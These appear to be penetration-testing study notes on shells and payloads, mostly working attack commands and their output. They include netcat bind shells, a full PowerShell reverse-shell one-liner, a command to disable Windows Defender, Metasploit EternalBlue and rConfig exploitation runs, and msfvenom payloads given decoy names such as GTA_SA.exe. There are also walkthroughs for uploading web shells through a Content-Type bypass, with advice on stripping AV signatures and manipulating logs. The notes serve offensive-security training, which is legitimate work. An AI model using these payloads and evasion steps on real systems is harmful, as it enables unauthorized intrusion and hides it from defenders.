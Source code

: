 # 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **NOTE:**  Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **NOTE:**  Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>

</details>

<details>
<summary><h1>📦 Payloads</h1></summary>
<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
msf6 > search smb
```

Selecting an Exploit  

```bash
msf6 > use 56
```

Examining an Exploit's Options  

```bash
msf6 > options
```

Setting Options  

```bash
msf6 > set RHOSTS <TARGET IP>
msf6 > set SMBUser <USER>
msf6 > set SMBPass <PASSWORD>
msf6 > set LHOST <ATTACKER IP>
msf6 > set LPORT <ATTACKER PORT>
msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
msf6 > run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 

```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>


<details>
<summary><h1>🪟 Windows Shells</h1></summary>  
<details>
<summary><h3>Infiltrating Windows</h3></summary>  
<details>
<summary><h4>Enumerating Windows & Fingerprinting Methods</h4></summary>  

When performing ICMP-based host discovery, Windows systems typically respond with one of these ICMP reply codes:

* Code 128: Standard response (most common)

* Code 32: Alternate response variant

These reply codes serve as reliable indicators of an active Windows host when conducting ping sweeps or network reconnaissance.  

**Attack Machine:** Ping target
```bash
ping <TARGET IP> (<TARGET IP>): 56 data bytes
64 bytes from <TARGET IP>: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from <TARGET IP>: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from <TARGET IP>: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from <TARGET IP>: icmp_seq=3 ttl=128 time=11.265 ms
```

**Attack Machine:** Initialize an OS Identification scan against our target  

```bash
sudo nmap -v -O <TARGET IP>
```

**Attack Machine:** For each port Nmap sees as up, it will attempt to connect to the port and glean any information it can from it.  

```bash
sudo nmap -v <TARGET IP> --script banner.nse
```

> The examples shown above are just a few ways to help fingerprint and determine if a host is a Windows machine. It is by no means an exhaustive list, and there are many other checks you can do.

</details>

<details>
<summary><h4>Payload Types to Consider</h4></summary>

**DLLs:** Dynamic Link Libraries (DLLs) are shared resource files in Microsoft Windows that allow multiple programs to access common code and data simultaneously. Attackers can exploit these files by either injecting a malicious DLL or hijacking a vulnerable system library, enabling privilege escalation to SYSTEM level or bypassing User Account Control (UAC) security measures.

**Batch:** Text-based DOS scripts used by system administrators to automate multiple tasks through the command-line interpreter (CLI).

**VBS:** A lightweight scripting language derived from Microsoft’s Visual Basic. While historically used for client-side web scripting to enable dynamic content, modern browsers have largely deprecated VBS due to security concerns.

Primarily observed in:

* Phishing campaigns (e.g., malicious macros in Office documents)

* Social engineering attacks (e.g., tricking users to enable script execution)

* Legacy system maintenance (rare edge cases)

> **Security ** Execution typically requires explicit user interaction (e.g., enabling macros, clicking embedded objects).

**MSI:** MSI files contain installation instructions and components for Windows applications. Attackers can exploit this system by:

1. Creating malicious MSI packages containing payloads

2. Delivering them to target systems

3. Executing them via the Windows Installer service (msiexec.exe)

This technique can provide:

* Elevated privileges (often SYSTEM-level access)

* Persistent reverse shells

* Bypass of some security controls

**Powershell:** PowerShell serves as both an interactive shell and powerful scripting language, offering extensive capabilities for offensive security operations:

Key Advantages:

* Native Windows integration (no additional dependencies)

* Deep system access (Windows Management Instrumentation, .NET integration)

* Flexible in-memory execution (evades disk-based detection)

</details>

<details>
<summary><h4>Procedures for Payload Generation, Transfer, and Execution</h4></summary>

* [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework): MSF stands as an indispensable tool for penetration testers, offering exceptional versatility across all stages of security assessments. This comprehensive platform enables professionals to conduct host enumeration, craft customized payloads, deploy both public and private exploits, and execute sophisticated post-exploitation activities.

* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings): Here, you can find many different resources and cheat sheets for payload generation and general methodology.

* [Mythic C2 Framework](https://github.com/its-a-feature/Mythic): Alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.

* [Nishang](https://github.com/samratashok/nishang): Framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

* [Darkarmour](https://github.com/bats3c/darkarmour): Tool to generate and utilize obfuscated binaries for use against Windows hosts.

</details>
</details>

<details>
<summary><h3>Example Compromise Walkthrough</h3></summary>

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -n -Pn -sS -T4 -sV -sC -A -O --min-rate 5000 <TARGET IP> -oX nmap_target_xml_scan.xml
xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine if the targert is vulnerable** 

```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010 
msf6 > show options
msf6 > set RHOSTS <TARGET IP>
msf6 > run
```

Expected output  

```bash
# [msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_ms17_010) >> run

# [+] <TARGET IP>:445       - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
# [*] <TARGET IP>:445       - Scanned 1 of 1 hosts (100% complete)
# [*] Auxiliary module execution completed
```

The vulnerability assessment indicates a high probability of an EternalBlue exploit working against our target. We'll proceed with configuring the exploit module and payload before initiating the attack.

**Attack Machine: Choose & Configure Our Exploit & Payload**

```bash
msf6 > search eternal
msf6 > use exploit/windows/smb/ms17_010_psexec
msf6 > options
msf6 > set LHOST <ATTACKER IP>
msf6 > set RHOSTS <TARGET IP>
```

Based on prior success rates with the PsExec variant, we'll prioritize this exploit method for initial execution. For this engagement, we've selected a standard Windows Meterpreter reverse TCP payload to maintain operational simplicity.

**Attack Machine: Execute Our Attack**  

```bash
msf6 > run
```

Expected output  

```bash
# [msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> run

# [*] Started reverse TCP handler on <ATTACKER IP>:4444 
# [*] <TARGET IP>:445 - Target OS: Windows Server 2016 Standard 14393
# [*] <TARGET IP>:445 - Built a write-what-where primitive...
# [+] <TARGET IP>:445 - Overwrite complete... SYSTEM session obtained!
# [*] <TARGET IP>:445 - Selecting PowerShell target
# [*] <TARGET IP>:445 - Executing the payload...
# [+] <TARGET IP>:445 - Service start timed out, OK if running a command or non-service executable...
# [*] Sending stage (175174 bytes) to <TARGET IP>
# [*] Meterpreter session 1 opened (<ATTACKER IP>:4444 -> <TARGET IP>:49672) at 2025-06-24 13:13:34 -0400

# (Meterpreter 1)(C:\Windows\system32) > 
```

With an active Meterpreter session established (indicated by the meterpreter > prompt), we now have multiple interaction options.

**Attack Machine: Verify Our Session**  

```bash
getuid
```

Expected output  

```bash
# Server username: NT AUTHORITY\SYSTEM
```

From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.


**Attack Machine: Identify Our Shell**  
```bash
shell
```

Expected output  

```bash
# Process 4844 created.
# Channel 1 created.
# Microsoft Windows [Version 10.0.14393]
# (c) 2016 Microsoft Corporation. All rights reserved.

# C:\Windows\system32>
```

When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.

</details>

<details>
<summary><h3>CMD or PowerShell</h3></summary>

<details>
<summary><h4>Differences</h4></summary>

# CMD vs PowerShell Comparison

| Feature          | CMD                              | PowerShell                      |
|------------------|----------------------------------|---------------------------------|
| **Origin**       | Original MS-DOS shell            | Designed to expand CMD's capabilities |
| **Command Language** | Native MS-DOS commands (`dir`, `ipconfig`) | Supports both MS-DOS and **.NET cmdlets** (`Get-ChildItem`, `Copy-Item`) |
| **Input/Output** | Text-based                       | **.NET objects** (structured data) |
| **Scripting**    | Basic batch files (`.bat`, `.cmd`) | Advanced scripts (`.ps1`) with loops, modules, and functions |
| **Command History** | **No** session logging | Keeps history of executed commands |
| **Security**     | No Execution Policy restrictions | Restricted by **Execution Policy** (e.g., `Restricted`, `RemoteSigned`) and UAC |
| **Availability** | Works on **all Windows versions** | Only available on **Windows 7+** |
| **Extensibility** | Limited to built-in commands | Supports **custom modules** and cmdlets |


</details>

<details>
<summary><h4>Which one is the right one to use?</h4></summary>

**Use CMD when:**

* You are on an older host that may not include PowerShell.

* When you only require simple interactions/access to the host.

* When you plan to use simple batch files, net commands, or MS-DOS native tools.

* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

**Use PowerShell when:**

* You are planning to utilize cmdlets or other custom-built scripts.

* When you wish to interact with .NET objects instead of text output.

* When being stealthy is of lesser concern.

* If you are planning to interact with cloud-based services and hosts.

* If your scripts set and use Aliases.

</details>

</details>
</details>

<details>
<summary><h1>🐧 Linux/UNIX Shells</h1></summary>  
<details>
<summary><h2>Infiltrating Linux/UNIX</h2></summary>  

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <TARGET IP> --script banner.nse -oX nmap_target_xml_scan.xml

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
msf6 > search rconfig
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

**Attack Machine: Configure Exploit Options**  

```bash
msf6 > options
msf6 > set RHOSTS <TARGET IP>
msf6 > set LHOST <ATTACKER IP>
```

**Attack Machine: Execute the Exploit**  
```bash
msf6 > exploit
```

**Attack Machine: Interact With the Shell**  
```bash
shell
```

**Attack Machine: Interact With the Shell**  
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

</details>

<details>
<summary><h2>Spawning Interactive Shells</h2></summary>  

<details>
<summary><h3>Spawn a shell</h3></summary>  

When encountering systems with restricted shell access and no Python interpreter, we should be prepared with alternative methods to escalate to an interactive shell. Several reliable techniques exist for this common post-exploitation scenario:

**/bin/sh**

This command will execute the shell interpreter specified in the path in interactive mode (-i).

```bash
/bin/sh -i
# sh: no job control in this shell
```

**Perl**

If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl: exec "/bin/sh";\
# This command should be run from a script.
```

**Ruby**

When Ruby is available on a target system, the following command can execute a system shell:

```bash
ruby: exec "/bin/sh"
# This command should be run from a script.
```

**Lua**

When Lua is available on a target system, the os.execute() function can be leveraged to spawn system shells. The most reliable approach uses absolute paths to avoid dependency on environment variables:

```bash
lua: os.execute('/bin/sh')
# This command should be run from a script.
```

**AWK**

AWK is a powerful pattern scanning and processing language with C-like syntax, commonly available on UNIX/Linux systems. AWK also provides functionality that can be leveraged to establish interactive shell sessions in security contexts.

```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

Find is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria.

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Exec**

The find command's -exec parameter can directly invoke a shell interpreter, but this method is contingent on locating the specified file - if the search fails, no shell session will be established.

```bash
find . -exec /bin/sh \; -quit
```

**VIM**

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor VIM. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

Vim To Shell  

```bash
vim -c ':!/bin/sh'
```

Vim Escape  
```bash
vim
:set shell=/bin/sh
:shell
```

</details>

<details>
<summary><h4>Execution Permissions</h4></summary>  

Permissions
```bash
ls -la <PATH>
```

Sudo
```bash
sudo -l
```

> Not only will considering permissions allow us to see what commands we can execute, but it may also start to give us an idea of potential vectors that will allow us to escalate privileges.

</details>

</details>

</details>

<details>
<summary><h1>🌐 Web Shells</h1></summary>  

A web shell provides browser-based command execution on a web server's underlying operating system, frequently serving as the initial persistence mechanism in web application attacks. This foothold often enables subsequent upgrades to fully interactive reverse shells.

In external penetration testing engagements, the most prevalent initial access vectors include:

* Web application vulnerabilities (file upload flaws, SQL injection, RFI/LFI, command injection)

* Credential-based attacks against exposed services (RDS, VPN portals, Citrix, OWA) leveraging Active Directory authentication

* Social engineering campaigns

Web applications typically constitute the largest exposed attack surface during external assessments. Common findings include unsecured file upload functionality accepting malicious PHP, JSP, or ASP.NET web shells.

<details>
<summary><h2>Laudanum</h2></summary>  

Laudanum is a curated collection of pre-built injection files designed for web application penetration testing. This repository provides security professionals with:

**Key Capabilities:**

* Immediate reverse shell establishment

* Browser-based command execution on compromised hosts

* Cross-language support (ASP, ASPX, JSP, PHP, etc.)

**Operational Value:**

* Rapid deployment during security assessments

* Multiple language support for diverse web environments

* Pre-tested payloads reducing setup time

<details>
<summary><h3>Installation</h3></summary>  

**Clone the repository**  

```bash
sudo git clone https://github.com/jbarcia/Web-Shells.git /usr/share/laudanum
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

The Laudanum toolkit is typically pre-installed at the following location:

```bash
/usr/share/laudanum
```

For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run.

**Move a Copy for Modification**
```bash
cp /usr/share/laudanum/aspx/shell.aspx ./shell.aspx
```

**Modify the Shell for Use**

Add your IP address to the allowedIps variable

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the Laudanum shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Antak Webshell</h2></summary>  

Antak is an ASP.NET web shell included in the Nishang framework, an offensive PowerShell toolkit designed for penetration testing across all engagement phases.

**Key Features:**

* PowerShell Integration: Executes commands directly via PowerShell, ideal for Windows server exploitation

* User Interface: PowerShell-themed UI for seamless interaction

* Operational Flexibility: Supports post-exploitation activities within compromised environments

**Advantages in Engagements:**

* Native compatibility with Windows environments

* Leverages PowerShell’s extensive system access

* Maintains low visibility when properly configured

<details>
<summary><h3>Installation</h3></summary>  

The Antak script can be found at the following location:

```bash
/usr/share/nishang/Antak-WebShell
```

Or in this [file](../scripts/shells/antak.aspx) included in this repository.

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/samratashok/nishang.git /usr/share/nishang/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Move a Copy for Modification**
```bash
cp /usr/share/nishang/Antak-WebShell/antak.aspx ./shell.aspx
```

**Modify the Shell for Use**

Always configure authentication credentials for your web shell to prevent unauthorized access.

> **NOTE:**  It can be prudent to remove the ASCII art and comments from the file. These items in a payload are often signatured on and can alert the defenders/AV to what you are doing.

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

During file upload exploitation, you may encounter various security measures:

* Randomized filenames

* Non-public upload directories

* Other application-specific protections

Current Engagement Specifics:  

The uploaded web shell (shell.aspx) is accessible at:

```bash
URL\files\shell.aspx
```

> **NOTE:**  This path requires Windows-style backslashes (\) rather than standard forward slashes (/).

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>PHP Web Shells</h2></summary>  

We will be using [WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master). We can download this or copy and paste the source code into a .php file.

<details>
<summary><h3>Installation</h3></summary>  

The script can be found [here](../scripts/shells/webshell.php) or cloning WhiteWinterWolf's [repository](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master).

**Clone the complete nishang repository**  

```bash
sudo git clone https://github.com/WhiteWinterWolf/wwwolf-php-webshell.git /usr/share/wwwolf-php-webshell/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Proxy Settings**

To intercept web traffic through Burp Suite:

1. Launch Burp Suite

    * Ensure the proxy listener is active (default: 127.0.0.1:8080)

2. Configure Browser Proxy Settings

    * Navigate to your browser's network/proxy configuration

    * Enter the following values:

    ```bash
    IP Address/Host: 127.0.0.1  
    Port: 8080
    ```

    * Disable any SSL/TLS verification warnings (for testing environments only)

3. Verification

    * Visit any HTTP page to confirm traffic appears in Burp's Proxy → Intercept tab

> **NOTE:**  Our goal is to change the content-type to bypass the file type restriction in uploading files to be "presented" as something else so we can navigate to that file and have our web shell.

**Bypassing the File Type Restriction**  

To circumvent file type restrictions, we'll manipulate the Content-Type header:

1. Header Modification

    * Change Content-Type: application/x-php → Content-Type: image/gif

    * This exploits potential server-side validation flaws

2. Execution

    * After modification, select Forward in Burp Suite

    * The server may now accept the .php file due to mismatched MIME verification

3. Considerations

    * Effectiveness depends on server validation methods

    * Works against filters checking only Content-Type (not file signatures)

    * Often combined with filename obfuscation (e.g., shell.php.gif)

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

During file upload exploitation, you may encounter various security measures:

* Randomized filenames

* Non-public upload directories

* Other application-specific protections

Current Engagement Specifics:  

The uploaded web shell (shell.aspx) is accessible at:

```bash
URL\files\shell.aspx
```

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Considerations when Dealing with Web Shells
</h2></summary>  

When employing web shells during engagements, testers should account for the following challenges:

1. Persistence Limitations

    * Automated file cleanup processes may remove deployed shells after a set duration

2. Functional Constraints

    * Restricted OS interaction (e.g., limited file system navigation)

    * Command chaining failures (e.g., whoami && hostname may not execute properly)

    * Reduced stability in non-interactive environments

3. Forensic Footprint

    * Higher likelihood of leaving detectable artifacts (logs, files, etc.)

**Engagement-Specific Tradecraft**  

For black box or evasive assessments:

* Prioritize stealth techniques to avoid detection

* Mirror realistic adversary tradecraft, including:

    * Log manipulation

    * Timed execution to blend with normal traffic

    * Use of encrypted or obfuscated channels

* Balance operational security with testing objectives to properly evaluate the client's detection capabilities

</details>

</details>

---

📘 **Next step:** Continue with [METASPLOIT FRAMEWORK](./06-metasploit-framework.md)
